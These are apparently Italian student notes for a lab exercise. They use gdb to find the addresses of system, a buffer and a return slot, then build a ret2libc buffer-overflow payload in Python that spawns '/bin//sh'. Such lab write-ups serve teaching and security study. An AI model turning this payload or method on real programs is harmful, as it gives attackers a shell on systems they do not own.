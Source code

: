 # Indirizzo di System
- Per individuare l'indirizzo di system da gdb eseguire
    - p system
    - risultato:0xb7ecffb0
# Risoluzione
    - breakpoint all'inizio
    - Ricostruisco il layout dopo il prologo
    - localizzo buffer e ret
    - Continuo fino all'epilogo
    - Ricostruisco il layout prima del ritorno 
# Indirizzo di buffer
- Per individuarlo vado a mettere un brackpoint prima della gets dato che so che buffer viene passato come primo parametro e che quindi il sui indirizzo sarà nel registro eax
    - risultato: 0xb7f0186e 
    - risultato: 0xbffffc8c
    - \x6e\x18\xf0\xb7
# Indirizzo di ret
- nel codice vediamo come ret sia uguale a -0xc($ebp) questo significa che l'indirizzo si trova in $ebp - 12
    - risultato: 0xbffffccc


# Payload corretto
- Quello del prof fa riferimento ad indirizzi differenti, questo è quello aggiornato rispetto ai miei indirizzi
```python
#!/usr/bin/python

print '/bin//sh\x00' + 'a' * 71 + '\xb0\xff\xec\xb7' + '\x42\x42\x42\x42' + '\x8c\xfc\xff\xbf'
```

